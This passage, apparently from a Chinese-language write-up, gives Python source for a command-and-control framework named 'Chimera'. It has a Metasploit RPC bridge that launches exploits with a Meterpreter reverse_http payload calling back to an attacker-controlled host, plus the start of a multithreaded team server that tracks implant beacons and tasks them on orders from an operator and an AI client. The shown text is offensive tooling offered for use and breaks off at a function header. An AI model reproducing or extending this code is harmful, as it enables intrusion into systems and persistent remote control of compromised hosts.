 ```python
                raise ConnectionRefusedError("MSF RPC认证失败。")
        except Exception as e:
            print(f"[!] 无法连接到MSF RPC服务: {e}")
            self.client = None

    def execute_exploit_with_chimera_payload(self, exploit_name, rhosts, lhost, lport):
        """
        执行一个漏洞利用，并将payload设置为回连到奇美拉的stager。
        """
        if not self.client:
            return {"status": "error", "message": "MSF未连接。"}

        payload = 'windows/x64/meterpreter/reverse_http' # 使用兼容的payload类型
        print(f"[*] 命令MSF: 使用 {exploit_name} 攻击 {rhosts}...")
    
        commands = [
            f"use exploit/{exploit_name}",
            f"set RHOSTS {rhosts}",
            f"set PAYLOAD {payload}",
            f"set LHOST {lhost}",
            f"set LPORT {lport}",
            "exploit -j -z" # 在后台执行，成功后不创建交互会话
        ]
    
        for cmd in commands:
            self.client.call('console.write', self.console_id, cmd + '\n')
            time.sleep(0.5) # 给MSF一点反应时间

        # 理论上，攻击成功后，一个新的Beacon会回连到我们的Team Server
        # MSF的job信息可以用于确认攻击是否已发送
        return {"status": "success", "message": f"攻击任务 {exploit_name} 已派发给MSF。"}

```

---

### **模块四：团队服务器核心 (`team_server.py`)**

这是奇美拉的心脏和大脑。一个多线程的怪物，负责处理所有植入体的回连、任务分发、数据聚合，并同时响应操作员和AI的指令。

```python
# [team_server.py]
# 奇美拉C2框架的团队服务器核心。

import socket
import threading
import configparser
import json
import uuid
import time
import random
from datetime import datetime, timedelta

# 导入我们的自定义模块
from msf_bridge import MSFBridge
from chaos_heart_client import ChaosHeartClient

# --- 全局数据结构与锁 ---
BEACONS = {}  # 存储所有Beacon的状态
TASK_QUEUE = {} # 每个Beacon的任务队列
RESULTS = {} # 每个Beacon返回的结果
BEACON_LOCK = threading.Lock()

def handle_beacon_request(config, ai_client, client_socket):
```